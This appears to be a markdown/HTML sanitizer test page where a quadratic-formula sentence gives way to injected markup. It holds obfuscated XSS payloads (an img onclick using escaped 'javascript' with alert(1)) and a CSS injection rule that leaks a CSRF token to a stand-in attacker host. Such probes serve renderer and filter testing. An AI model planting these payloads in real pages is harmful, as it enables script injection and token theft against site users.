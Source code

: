 \u003E\u003C

When $a \ne 0$, there are two solutions to \(ax^2 + bx + c = 0\) and they are
$$ \u003E\u003C\<a href=# style="position:relative;width:100px;background:#ddffdd;overflow:hidden;">aa</a><img src=m onc\u006Cick=javascript&#x6a;avascript:alert(1)()><style>p{color:red}</style>{}$$

$$ \u003E\u003C\<img class=xlalla src=mmalla id=lkaka style="width:90px">{}$$

<a href=aa.ht style="position:relative;width:100px;background:#ddffdd;overflow:hidden;">mamma</a>

<style>h1{color:blue}</style>
<h1>aa</h1>

$$ \u003E\u003C\<a href=# style="position:relative;width:100px;background:#ddffdd;overflow:hidden;">aa</a><img src=m onc\u006Cick=javascript&#x6a;avascript:alert(1)()><style>input[name=csrf_token][value=^a]{background-image: url(http://attacker.camammaom/log?a);}</style>{}$$
